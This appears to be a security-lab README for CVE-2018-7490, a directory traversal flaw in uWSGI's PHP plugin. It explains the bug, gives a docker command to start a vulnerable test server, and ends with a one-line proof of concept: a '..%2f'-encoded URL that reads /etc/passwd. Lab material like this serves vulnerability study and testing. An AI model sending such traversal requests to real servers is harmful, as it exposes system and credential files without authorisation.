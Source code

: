
# uWSGI PHP Directory Traversal Vulnerability (CVE-2018-7490)

[中文版本(Chinese version)](README.zh-cn.md)

uWSGI is a web application server, which implements protocols such as WSGI/uwsgi/http, and supports for various languages through plugins.

The PHP plugin of uWSGI before 2.0.17 doesn't handle the detection of `DOCUMENT_ROOT` correctly, resulting in reading or running files outside the `DOCUMENT_ROOT` through the use of `..%2f`.

## Environment Setup

Enter the following command：

```
docker compose up -d
```

Visit `http://your-ip:8080` and you'll see the phpinfo page as the uwsgi-php server running successfully.

## POC

Directly visit `http://your-ip:8080/..%2f..%2f..%2f..%2f..%2fetc/passwd`, you will get the passwd file：

![](1.png)

